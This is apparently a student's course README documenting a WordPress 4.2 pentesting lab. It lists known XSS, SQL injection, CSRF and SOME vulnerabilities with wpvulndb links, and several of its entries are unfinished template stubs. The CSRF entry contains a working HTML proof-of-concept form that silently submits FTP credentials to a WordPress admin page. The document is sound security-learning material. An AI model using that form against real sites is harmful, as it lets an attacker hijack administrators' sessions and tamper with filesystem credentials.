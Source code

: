 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Lab Section

* Recreating the XSS exploit:

    <img src='https://i.imgur.com/r6t8YYw.png' />

## Pentesting Report

1. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: https://wpvulndb.com/vulnerabilities/7945.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [x] GIF Walkthrough: <img src='xss.gif' />
  - [x] Steps to recreate: The vulnerability takes place
        when a user posts a comment that is extraordinarily long to bypass the MySQL limit
        of 64 kilobytes. When this happens, it executes code within HTML attributes supplied
        in the comment. When any user loads the page with the comment, the XSS executes.
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-comments-post.php)
1. (Required) wp_untrash_post_comments SQL Injection
  - [x] Summary: https://wpvulndb.com/vulnerabilities/8126.
    - Vulnerability types: SQL Injection
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [ ] GIF Walkthrough:
  - [ ] Steps to recreate:
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Filesystem Credentials Dialog CSRF
  - [x] Summary: https://wpvulndb.com/vulnerabilities/8818
    - Vulnerability types: CSRF
    - Tested in version: 4.2
    - Fixed in version: 4.2.15
  - [x] GIF Walkthrough:
  - [x] Steps to recreate: Create an HTML file with a hidden submission form
        ```
        <html>
   <body>
      <form action="http://wpdistillery.dev/wp-admin/plugins.php" method="POST">
         <input type="hidden" name="hostname" value="sumofpwn.nl" />
         <input type="hidden" name="connection_type" value="ftp" />
         <input type="hidden" name="password" value="password" />
         <input type="submit" value="Submit request" />
      </form>
   </body>
</html>
        ```
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-admin/includes/file.php)
1. (Optional) Pupload Same Origin Method Execution (SOME)
  - [ ] Summary: https://wpvulndb.com/vulnerabilities/8489
    - Vulnerability types: Same Origin Method Execution (SOME)
    - Tested in version: 4.2
    - Fixed in version: 4.2.8
  - [ ] GIF Walkthrough:
  - [ ] Steps to recreate:
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) 2.3-4.7.5 - Large File Upload Error XSS
  - [x] Summary: https://wpvulndb.com/vulnerabilities/8819
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough:
  - [ ] Steps to recreate:
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

    Filesystem Credentials Dialog CSRF
    https://wpvulndb.com/vulnerabilities/8818

    Press This CSRF DoS
    https://wpvulndb.com/vulnerabilities/8770

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2017 Alexander Matson

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
